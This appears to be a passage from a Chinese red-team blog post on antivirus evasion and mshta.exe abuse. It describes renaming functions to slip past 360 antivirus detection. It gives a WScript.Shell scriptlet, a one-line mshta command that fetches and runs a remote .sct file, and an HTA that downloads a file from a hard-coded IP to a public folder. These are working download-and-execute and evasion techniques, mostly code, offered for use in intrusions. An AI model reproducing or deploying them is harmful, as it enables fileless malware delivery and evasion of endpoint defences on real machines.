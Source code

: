 该脚本在第一次测试中没有被360杀，不过在后续测试中被360杀了，初步认为是被360上传到云端标记了，简单做了一下代码的修改，例如将function的名字进行修改，又可以绕过了。

![image-20210902152309710](/img/image-20210902152309710-4138597.png)

在红队攻防中，建议修改第二种代码来进行绕过。



## mshta下载文件

mshta.exe是微软Windows操作系统相关程序，英文全称Microsoft HTML Application，可翻译为微软超文本标记语言应用，用于执行.HTA文件，我们可以在本地构建hta文件，之后通过目标主机的mshta来远程下载并执行。

mshta支持三种方式来获取hta文件，分别是本地的文件系统、远程HTTP以及UNC路径。远程HTTP和UNC路径的好处在于不用文件落地。



以下是我们执行命令的文件，主要是利用wscript.shell来执行命令

```html
<?XML version="1.0"?>
<scriptlet>
<registration description="Desc" progid="Progid" version="0" classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"></registration>

<public>
    <method name="Exec"></method>
</public>

<script language="JScript">
<![CDATA[
	function Exec()	{
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
	}
]]>
</script>
</scriptlet>
```

将以上脚本保存并放到服务器上并执行命令，就能弹出一个计算器。

```
mshta.exe javascript:a=(GetObject("script:http://example/m.sct")).Exec();close();
```

同样的hta支持jscript的函数来执行操作，jscript的函数基本上跟vbscript一模一样，主要也是通过Scripting.FileSystemObject和adodb.stream来执行下载的任务，不过这里面有一个区别，jscript的FileSystemObject只能操作非二进制文件，也就是说，我们的exe文件不能通过FileSystemObject来进行下载。

以下是我们下载非二进制的脚本：

```html
<HTML>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="jscript">
var url = 'http://45.32.99.159:443/1.txt';
var path = 'c:\\users\\public\\1.txt';

var objXML = new ActiveXObject("Microsoft.XMLHTTP");
objXML.open('GET',url,false);
objXML.send()

var fso = new ActiveXObject("Scripting.FileSystemObject");
var a = fso.CreateTextFile(path, true);
a.write(objXML.responseText);
a.close();
self.close();
</script>
<body>
demo
```